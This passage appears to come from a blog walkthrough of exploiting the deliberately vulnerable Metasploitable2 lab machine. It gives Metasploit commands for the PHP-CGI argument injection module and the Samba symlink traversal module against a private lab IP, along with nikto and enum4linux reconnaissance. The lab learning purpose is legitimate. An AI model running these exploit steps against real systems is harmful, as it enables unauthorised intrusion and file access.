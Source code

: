 {% img  /images/blog/misc/metasploitable2/Selection_028.png   [title manually exploit [alt text]] %}




### phpinfo.php

Use nikto, I found the page phpinfo.php is availabe.

{% img  /images/blog/misc/metasploitable2/Selection_029.png   [title manually exploit [alt text]] %}

I got the php version is 5.2.4.

search the php_cgi

found the exploit `exploit/multi/http/php_cgi_arg_injection`

{% img  /images/blog/misc/metasploitable2/Selection_030.png   [title manually exploit [alt text]] %}

may be the vulberable version.

```
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(php_cgi_arg_injection) > set rhost 192.168.79.179
msf exploit(php_cgi_arg_injection) > exploit
```

{% img  /images/blog/misc/metasploitable2/Selection_031.png   [title manually exploit [alt text]] %}




### SMB exploit:


Enumerate smtp:

`enum4linux 192.168.79.179`


{% img  /images/blog/misc/metasploitable2/Selection_005.png   [title manually exploit [alt text]] %}

looks like [wide links](https://www.samba.org/samba/news/symlink_attack.html)

```
use auxiliary/admin/smb/samba_symlink_traversal
msf auxiliary(samba_symlink_traversal) > set rhost 192.168.79.179
msf auxiliary(samba_symlink_traversal) > set SMBSHARE tmp
msf auxiliary(samba_symlink_traversal) > exploit

```

{% img  /images/blog/misc/metasploitable2/Selection_006.png   [title manually exploit [alt text]] %}

looks good

now use smbclient to login
